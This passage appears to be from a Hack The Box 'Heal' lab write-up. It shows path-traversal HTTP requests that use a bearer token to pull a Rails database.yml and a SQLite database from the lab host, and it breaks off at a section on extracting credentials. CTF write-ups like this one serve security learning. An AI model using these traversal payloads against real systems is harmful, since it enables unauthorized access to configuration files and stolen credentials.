 Searching for a database config file, I referred to:

* [Configuring and connecting to a database - Learn Ruby on Rails](https://academy.bigbinary.com/)
* [HTB Heal Writeups](https://htb-writeups)

Eventually, I found the crucial file:

```http
GET /download?filename=../../config/database.yml HTTP/1.1
Host: api.heal.htb
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo3fQ.bN47YVxPM1ZVqbw4J7oHZeDc3ixY3KO6yZpM5M3nfZE
Accept: application/json, text/plain, */*
Origin: http://heal.htb
Referer: http://heal.htb/
```

**Response:**

```yaml
default: &default
  adapter: sqlite3
  pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
  timeout: 5000

development:
  <<: *default
  database: storage/development.sqlite3

test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
```

---

## Downloading the SQLite Database

Using the discovered path, we fetch the database file:

```http
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1
Host: api.heal.htb
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo3fQ.bN47YVxPM1ZVqbw4J7oHZeDc3ixY3KO6yZpM5M3nfZE
```

---

## Extracting User Credentials from Database
